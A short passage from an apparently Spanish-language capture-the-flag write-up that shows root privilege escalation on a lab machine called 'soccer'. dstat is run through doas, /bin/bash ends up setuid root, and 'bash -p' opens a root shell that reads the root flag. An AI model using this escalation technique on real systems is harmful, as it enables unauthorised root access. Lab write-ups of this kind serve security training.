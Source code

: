 ```
player@soccer:/usr/local/share/dstat$ /usr/local/bin/doas -u root /usr/bin/dstat --script
player@soccer:/usr/local/share/dstat$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
Y ya podemos hacer **bash -p**

```
player@soccer:/usr/local/share/dstat$ bash -p
bash-5.0# cat /root/root.txt 
c1eea9302f59408e750ad663505e8f4b
bash-5.0#
```
